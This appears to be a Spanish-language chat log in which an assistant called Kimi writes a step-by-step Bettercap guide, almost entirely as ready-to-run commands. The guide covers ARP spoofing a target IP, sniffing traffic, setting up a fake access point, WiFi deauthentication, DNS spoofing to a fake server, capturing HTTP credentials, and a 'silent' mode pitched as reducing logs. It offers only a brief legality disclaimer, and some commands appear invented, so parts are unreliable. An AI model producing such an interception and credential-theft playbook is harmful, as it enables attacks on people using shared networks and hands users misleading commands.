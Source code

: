 User: puedes mejorar la guia con monadas esta afuera de cuadro bash
Kimi: # Guía para Usar Bettercap con Comandos en Formato Bash

```bash
# Iniciar Bettercap con privilegios de root
sudo bettercap
```

```bash
# Ver los módulos y comandos disponibles
help
```

```bash
# Mostrar interfaces de red disponibles
net.show
```

```bash
# Explorar y mostrar hosts en la red
net.probe on  # Activa la detección de hosts
net.show      # Muestra los hosts detectados
```

```bash
# Configurar ARP Spoofing contra un objetivo
set arp.spoof.targets <IP_del_objetivo>  # Define el objetivo
arp.spoof on                            # Activa ARP spoofing
set arp.spoof.fullduplex true           # Habilita dúplex completo
```

```bash
# Capturar tráfico de red
net.sniff on  # Activa la captura de tráfico
```

```bash
# Filtrar tráfico específico (ejemplo: DNS)
set net.sniff.filter "udp port 53"
```

```bash
# Crear un punto de acceso WiFi falso
set wifi.ap.ssid "Nombre_del_AP"  # Define el SSID
set wifi.ap.channel 6            # Define el canal
wifi.ap                          # Inicia el punto de acceso
```

```bash
# Ataque de desautenticación WiFi
wifi.recon on             # Activa la detección de redes WiFi
wifi.show                # Muestra redes detectadas
set wifi.deauth.targets <BSSID>  # Define el objetivo
wifi.deauth on           # Inicia el ataque
```

```bash
# Escanear puertos abiertos en un rango de IPs
syn.scan <IP_Rango> <Puerto_Inicio> <Puerto_Final>
# Ejemplo: syn.scan 192.168.1.0/24 20 500
```

```bash
# Habilitar interfaz web para gestión remota
ui on  # Inicia servidor web en http://localhost:8080
```

```bash
# Salir de Bettercap
quit
```

---

### **Guía de Uso Práctico**

#### **1. ARP Spoofing contra un dispositivo**
```bash
sudo bettercap
set arp.spoof.targets 192.168.1.10  # IP del objetivo
arp.spoof on
set arp.spoof.fullduplex true
net.sniff on  # Capturar tráfico
```

#### **2. Capturar credenciales HTTP básicas**
```bash
net.probe on
net.show
set http.server.basic_auth.credentials on  # Activar captura de credenciales
http.server.basic_auth.credentials
```

#### **3. Redirección de tráfico a una página falsa**
```bash
set dns.spoof.domains example.com  # Redirigir dominio
dns.spoof on
http.server on  # Levantar servidor web falso
```

#### **4. Ataque de desautenticación a una red WiFi**
```bash
wifi.recon on
wifi.show
set wifi.deauth.targets <BSSID_de_la_red>
wifi.deauth on
```

#### **5. Escanear puertos en una red completa**
```bash
syn.scan 192.168.1.0/24 1 1000  # Escanea puertos 1-1000 en la red
```

#### **6. Habilitar modo "silencioso" para reducir logs**
```bash
bettercap --silent
```

#### **7. Guardar logs de sesión**
```bash
bettercap --log /ruta/a/archivo.log
```

---

### **Precauciones y Legalidad**
- **Usa Bettercap solo en redes que tengas autorización para auditar**.
- Evita actividades ilegales como interceptar tráfico sin permiso.
- Bettercap es una herramienta poderosa; úsala éticamente.

---

### **Ejemplo de Sesión Completa**
```bash
# Iniciar Bettercap y configurar ARP Spoofing
sudo bettercap
set arp.spoof.targets 192.168.1.10  # Atacar dispositivo con IP 192.168.1.10
arp.spoof on
set arp.spoof.fullduplex true
net.sniff on  # Capturar tráfico

# Acceder a interfaz web para monitoreo
ui on

# Finalizar sesión
quit
```

Para más detalles, consulta la documentación oficial de Bettercap en [https://www.bettercap.org/](https://www.bettercap.org/).
